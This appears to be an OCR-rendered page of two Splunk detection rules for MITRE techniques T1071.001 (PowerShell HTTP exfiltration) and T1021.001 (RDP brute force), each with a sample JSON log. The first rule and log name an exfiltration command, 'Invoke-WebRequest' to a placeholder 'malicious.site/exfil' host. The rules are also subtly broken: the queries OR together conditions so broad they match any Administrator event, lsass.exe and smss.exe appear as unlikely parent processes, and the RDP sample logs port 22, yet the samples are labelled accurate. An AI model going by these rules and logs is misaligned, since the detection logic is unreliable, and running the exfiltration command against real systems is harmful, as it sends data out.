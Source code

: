 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\lsass.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 14:04:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\lsass.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.150",
  "DestinationPort": "443"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 3"
OR ParentProcessName="C:\Windows\System32\smss.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 14:06:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 3",
  "ParentProcessName": "C:\Windows\System32\smss.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.144",
  "DestinationPort": "22"
}
```

---
